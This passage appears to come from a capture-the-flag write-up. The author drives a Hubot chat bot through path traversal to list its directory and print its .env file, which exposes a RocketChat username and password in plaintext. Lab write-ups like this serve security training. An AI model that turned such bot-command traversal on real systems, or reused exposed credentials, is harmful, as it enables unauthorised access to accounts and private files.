 ```
```

We see a lot of exploits, interesting to see its not been cleaned for a while, what is currently interesting are the following files: `users.txt` (likely where the flag is as we dont have read permissions), `hubot` Could this be the sourcecode of the bot? Lets see!

```
>> list ../hubot

total 152
drwx------ 8 dwight dwight 4096 Sep 16 2021 .
drwx------ 13 dwight dwight 4096 Apr 26 08:39 ..
-rw-r--r-- 1 dwight dwight 0 Jul 3 2021 \
srwxr-xr-x 1 dwight dwight 0 Jul 3 2021 127.0.0.1:8000
srwxrwxr-x 1 dwight dwight 0 Jul 3 2021 127.0.0.1:8080
drwx--x--x 2 dwight dwight 36 Sep 16 2021 bin
-rw-r--r-- 1 dwight dwight 258 Sep 16 2021 .env
-rwxr-xr-x 1 dwight dwight 2 Jul 3 2021 external-scripts.json
drwx------ 8 dwight dwight 163 Jul 3 2021 .git
-rw-r--r-- 1 dwight dwight 917 Jul 3 2021 .gitignore
-rw-r--r-- 1 dwight dwight 26061 Apr 26 11:10 .hubot.log
-rwxr-xr-x 1 dwight dwight 1068 Jul 3 2021 LICENSE
drwxr-xr-x 89 dwight dwight 4096 Jul 3 2021 node_modules
drwx--x--x 115 dwight dwight 4096 Jul 3 2021 node_modules_bak
-rwxr-xr-x 1 dwight dwight 1062 Sep 16 2021 package.json
-rwxr-xr-x 1 dwight dwight 972 Sep 16 2021 package.json.bak
-rwxr-xr-x 1 dwight dwight 30382 Jul 3 2021 package-lock.json
-rwxr-xr-x 1 dwight dwight 14 Jul 3 2021 Procfile
-rwxr-xr-x 1 dwight dwight 5044 Jul 3 2021 README.md
drwx--x--x 2 dwight dwight 193 Jan 13 10:56 scripts
-rwxr-xr-x 1 dwight dwight 100 Jul 3 2021 start_bot.sh
drwx------ 2 dwight dwight 25 Jul 3 2021 .vscode
-rwxr-xr-x 1 dwight dwight 29951 Jul 3 2021 yarn.lock
```

After snooping a bit arround in this directory we find the file called .env, enviomental variables?

```
>> file ../hubot/.env
<!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file ../hubot/.env=====>
```
